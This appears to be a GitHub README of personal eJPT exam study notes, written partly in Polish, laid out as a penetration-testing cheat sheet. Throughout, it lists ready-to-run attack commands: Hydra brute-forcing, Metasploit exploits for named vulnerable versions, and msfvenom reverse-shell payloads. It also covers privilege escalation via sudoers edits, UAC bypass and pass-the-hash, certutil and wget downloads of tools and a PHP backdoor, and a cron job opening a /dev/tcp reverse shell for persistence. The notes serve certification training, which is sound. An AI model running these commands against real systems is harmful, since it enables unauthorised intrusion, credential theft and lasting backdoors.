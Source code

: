 # eJPT-Study-Notes
My sheet sheet, which I used during my eJPT exam. I've got 91% :)

# The cheat sheet
PIVOTING: 
jak robisz autoroute to daj na adres ip maszyny, do której się chcesz dostać, ewentualnie na ip widocznego na interfejsie pierwszej maszyny


Lists:

a)users:

/usr/share/metasploit-framework/data/wordlists/common_users.txt

/data/wordlists/unix_users.txt

/usr/share/metasploit-framework/data/wordlists/namelist.txt

/usr/share/wordlists/metasploit/unix_users.txt

root

vagrant

search smtp_enum # pobranie userów po SMTP


b)passwords:

/usr/share/metasploit-framework/data/wordlists/unix_passwords.txt

/usr/share/wordlists/metasploit/unix_passwords.txt

/usr/share/metasploit-framework/data/wordlists/common_passwords.txt

/usr/share/wordlists/rockyou.txt.gz


c)for cracking:

auxiliary/scanner/http/http_login

http/dir_scanner

auxiliary/scanner/winrm/winrm_login


d)files, dirs:

/usr/share/metasploit-framework/data/wordlists/directory.txt

hydra fast commands:

hydra -L /usr/share/wordlists/metasploit/unix_users.txt -P /usr/share/wordlists/metasploit/unix_passwords.txt ip ftp

hydra -l administrator -P /usr/share/wordlists/metasploit/unix_users.txt ip ssh

hydra -l administrator -P /usr/share/wordlists/metasploit/unix_passwords.txt demo.ine.local smb



vulnerabilities:

* jak nie mas pomysłu to są 3 opcje: wpisujesz wersje w gogle i słowa exploit lub cve | searchsploit wersja | moduł metasplota suggester czy jakoś tak
  
* jak masz exploita na daną wersje, ale nie działa to niekoniecznie robisz coś źle, być może został dany exploit załatany
  
linux - vsftpd v 2.3.4  -  exploit/unix/ftp/vsftpd_234_backdoor

linux - proftpd 1.3.3c  -  proftpd_133c_backdoor

linux - Haraka SMTP v2.8.9 i 2.8.8  -  exploit/linux/smtp/haraka

linux - libssh v0.6.0-0.8.0 i 0.8.3  -  auxiliary/scanner/ssh/libssh_auth_bypass

linux - Samba v3.5.0 / 3.0.20 (ogólnie smbd 3.5.0 to 4.4.14, 4.5.10, and 4.6.4)  -  exploit/……/is_known_pipename

linux - samba 3.0.20  -  exploit/multi/samba/usermap_script

windows - Apache Tomcat v8.5.19  -  exploit/multi/http/tomcat_jsp_upload_bypass

windows - rejetto HttpFileServer 2.3 -  exploit/windows/http/rejetto_hfs_exec

xoda web service  -  exploit/unix/webapp/xoda_file_upload

linux priv esc  -  chkrootkit  0.49  -  exploit/unix/local/chkrootkit  (whereis chkrootkit)

windows  -  badblue 2.7  -  exploit/windows/http/badblue_passthru

Windows 2008 and 2008R2 - search eternalblue  -  ms17_010_eterenalblue (auxiliary/scanner/smb/smb_ms17_010 detection)

PHP 5.4.2 versions below - CGI plik - shellshock  -  exploit/multi/http/php_cgi_arg_injection | apache_mod_chi_bash_env_exec 

/phpinfo.php - 5.2.4ubuntu5.10 lub CGI | exploit/multi/http/php_cgi_arg_injection

WebDAV | davtest -url http://10.0.17.27/webdav | davtest -auth bob:password_123321 -url http://10.0.17.27/webdav | exploit/windows/iis/iis_webdav_upload_asp

ProcessMaker HTTP -  exploit/multi/http/process_maker_exec

5985 port | WinRM - winrm_script_exec | auxiliary/scanner/winrm/winrm_login



webshells, reverse shells:
/usr/share/webshells/php/php-backdoor.php
msfvenom -p windows/shell/reverse_tcp LHOST=ip LPORT=1234 -f asp > shell.aspx
/usr/share/webshells/php/php-reverse-shell.php
/usr/share/webshells/asp/webshell.asp
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.1.3 LPORT=4444 -f exe > 'backdoor.exe
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=ip LPORT=1234 -f exe > payload.exe


usefull:
post/multi/manage/shell_to_meterpreter
TCP port 5985 5986 (HTTPS) wsman (słowo klucz) - Windows Remote   Management Protocol - auxiliary/scanner/winrm/winrm_login
mimikatz = KIWI | meterpreter>load kiwi
testowanie dziwnych portów (np. takich ze znakiem zapytania?) - nc -nv ip <port>
Microsoft IIS = asp lub aspx
Apache i Linux = php
exploit/windows/misc/hta_server
https://github.com/411Hall/JAWS - windows wnumeration
https://github.com/rebootuser/LinEnum - linux enumeration
auxiliary/analyze/crack_windows
post/linux/gather/hashdump
auxiliary/analyze/crack_linux
auxiliary/scanner/rdp/rdp_scanner - RDP może być na innym niż domyślnym porcie
nmap --script http-shellshock --script-args “http-shellshock.uri=/gettime.cgi” 192.242.220.3 (JAK JEST CGI FILE)
exploit/windows/smb/psexec
post/linux/gather/phpmyadmin_credsteal # może znaleźć hasło do roota
https://github.com/hfiref0x/UACME


interesting paths:
/wamp/www/wordpress/wp-config.php
C:\wamp\alias\phpmyadmin.conf
/usr/share/windows-resources/mimikatz/x64/mimikatz.exe


privilege esc:
linux - ps aux - szukasz procesu chkrootkit
linux - exploit/unix/local/chkrootkit
linux - find / -not -type l -perm -o+w | it will find world writable files
linux - etc/shadow jak można edytować to możemy usera dodać
linux -  find / -user root -perm -4000 -exec ls -ldb {} \ | poszukuje SEUID programs
linux - sudo -l | sprawdź do czego masz uprawnienia sudo bo czasem jak masz np. do nano albo cat to możesz wyświetlić /etc/shadow, a znowu jak masz do vi to możesz z tego poziomu zrobić basha, tak samo z man: otwierasz sudo man, potem !/bin/bash
linux -  grep -nri “/tmp/message” /usr | poszukiwanie plików z daną zawartością, w tym przypadku zapisujących do wskazanej ścieżki
linux - printf '#! /bin/bash\necho "student ALL=NOPASSWD:ALL" >> /etc/sudoers' > /usr/local/share/copy.sh
linux - plik welcome s ustawionym SUID, "strings welcome" wskazuje wykonanie pliku greetings z poziomu pliku welcome, rm greetings, cp /bin/bash greetings, ./welcome
getsystem
linux - zawsze warto sprawdzić pliki w katalogu domowym oraz w /tmp
linux - generalnie jak jest crontab i privilege esc z tym związane, to szukasz pliku (polecenie stat), który będzie edyowany co minute, jak znajdziesz plik to szukasz pliku, który w swoim kodzie ma edycję pliku (polecenie grep)
windows - exploit/windows/local/bypassuac_injection
windows - Source: https://github.com/itm4n/PrivescCheck  | PowerShell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck "
windows - runas.exe /user:administrator cmd
windows - psexec.py Administrator@target_ip
windows - exploit/windows/smb/psexec
windows - /root/Desktop/tools/UACME/Akagi64.exe | Akagi64.exe 23 C:\Users\admin\AppData\Local\Temp\backdoor.exe
windows - Source: https://github.com/PowerShellMafia/PowerSploit
windows - load incognito | list_tokens -u | impersonate_token "ATTACKDEFENSE\Administrator"
windows - crackmapexec smb ip -u Administrator -H "NTLM hash" # zalogowanie się na admina używając hasza NTLM



transfering files:
certutil -urlcache -f http://10.10.3.2/nc.exe nc.exe
python -m SimpleHTTPServer 80
python3 -m http.server 80 
nc.exe -nvlp 1234 > test.txt
nc -nv ip port < test.txt
wget http://ip/php-backdoor.php


persistence:
windows - getgui
*windows - exploit/windows/local/persistence_service
linux - echo "* * * * * cd /home/student/ && python -m SimpleHTTPServer" > cron; crontab -i cron
linux - scp student@192.37.104.3:~/.ssh/id_rsa , a potem ssh -i id_rsa student@192.37.104.3
*linux - echo "* * * * * /bin/bash -c 'bash -i >& /dev/tcp/ip_kali/1234 0>&1'" > cron (TO JEST NAJLEPSZE)

fast login:
scanner/ssh/ssh_login
mysql -h ip -u root # jak root jest bez hasła
